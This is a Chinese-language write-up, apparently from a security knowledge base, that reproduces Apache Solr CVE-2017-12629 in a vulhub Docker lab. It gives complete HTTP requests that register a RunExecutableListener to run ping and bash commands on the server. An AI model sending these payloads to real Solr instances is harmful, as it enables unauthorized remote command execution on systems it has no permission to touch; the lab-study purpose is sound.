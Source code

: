 ```yaml
---
title:  Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629
---
```


# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本
<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容
```shell
/solr/admin/cores
```
通过查看代码，能够触发命令执行的事件有两个：`postCommit` 和`newSearcher`

![ec27d0b9-f86d-43b7-9fe4-1bba02cbf334](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ec27d0b9-f86d-43b7-9fe4-1bba02cbf334.png)



第一个请求包用于载入缓存中

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

如下请求包执行的是 /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220307151501330](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307151501330.png)

第二个请求包用于更新缓存并执行命令

```shell
POST /solr/demo/update

[{"id":"test"}]
```
进入docker容器查看发现命令已经执行

![53ffedcf-5cc3-42cf-9623-a076ed001ac8](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/53ffedcf-5cc3-42cf-9623-a076ed001ac8.png)

使用 newSearcher可以直接加载入缓存执行命令

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

成功执行了创建文件的命令

![567692f5-4845-439f-b747-020011068da8](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/567692f5-4845-439f-b747-020011068da8.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

